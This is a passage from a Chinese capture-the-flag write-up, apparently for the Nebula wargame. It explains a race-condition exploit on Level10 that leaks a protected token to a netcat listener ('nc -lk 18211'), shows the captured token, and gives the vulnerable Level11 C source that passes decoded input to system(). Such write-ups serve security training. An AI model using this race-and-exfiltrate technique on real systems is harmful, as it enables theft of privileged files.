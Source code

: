 其中`&`符合是为了后台运行，就可以非阻塞的执行下一条语句；插入一个for循环是为了延后链接文件的目标文件更改时间，使得它能够在`access()`检查完成后并在`open()`执行前执行（当然这是不确定能100%成功的，可以调节循环次数）。

随后我们可以在另外一个终端里监听18211端口：

	nc -lk 18211

可以收到token文件内容：

	.oO Oo.
	615a2ce1-b2b5-4c76-8eed-8aa5c4015c27


## Level11

题目源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
}

void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}

```